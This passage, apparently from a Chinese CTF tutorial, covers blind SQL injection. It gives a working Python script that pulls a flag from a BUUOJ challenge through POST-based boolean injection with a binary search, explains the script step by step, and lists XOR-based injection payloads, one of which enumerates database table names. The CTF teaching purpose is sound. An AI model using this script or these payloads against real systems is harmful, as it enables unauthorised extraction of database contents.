 -  **POST 型注入：** 

```python
import requests
import time
url = 'http://ff5b2186-703f-4597-91c3-03dc164e80c7.node4.buuoj.cn:81/index.php'
flag = ''
for i in range(1, 250):
   time.sleep(0.06)   #两处时间延迟尽量加上，否则可能触发网站反爬虫机制
   low = 33
   high = 130
   mid = (low+high)//2
   while(low<high):
       #payload = '1^(ascii(substr(database(),{0},1))={1})#'.format(i,mid)
       payload = "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
       datas = {
                     "id":payload
                }
       res = requests.post(url=url,data=datas)
       time.sleep(0.04)

       if 'Hello' in res.text:      # 为真时，即判断正确的时候的条件
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if (chr(mid) == " "):
       break
   flag = flag+chr(mid)
   print(flag)
```

不能当脚本小子，我们要掌握脚本的编写思路！！！

首先，我们先分析脚本的思路，脚本利用了request库来发送请求，同时定义了一个flag字符串用来储存flag。然后写了一个for循环，封 顶跑250遍，然后定义了low和high，这里根据的是ASCII码中的打印字符，定义了中间值，因为一会儿要使用的是**二分法**，当 low<high时进入while循环，执行payload是否大于mid的判断，这里GET和POST略有区别，POST传入的键值对，利用 requests.post方法进行请求，GET直接把Payload拼接在url后面进行requests.get方法即可，然后根据我们判断真假的方 式写一个if循环，这里的res.text是返回数据，可以先写个简单脚本看一下该怎么从其中判断真假，如果为真low=mid+1，然后再取中间值，如 果为假则high=mid然后取中间值，直到low大于high就能确定出该位置的ASCII码了，然后最下面的if循环是排除掉在两端的特殊情况，然后 每次循环打印一次flag，有时候可能还要设置延时，这里没有管。

##### 利用异或的盲注

```python
?id=0'^1--+
?id=0'^0--+
?id=0'^(ascii(substr(database(),1,1))>1)--+
?id=0'^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),{0},1))={1})--+
```

##### 利用order by的盲注

- **该方法只适用于表里就一行数据的时候。**

如果注入的时候没有报错，我们又不知道列名，在无列名注入，即通过使用`union`语句来对未知列名进行重命名的形式绕过，或通过使用`join using()`报错注入出列名被ban之后，就只能用 order by 盲注了。当然，在 **过滤了括号** 的时候，order by 盲注也是个很好的办法。
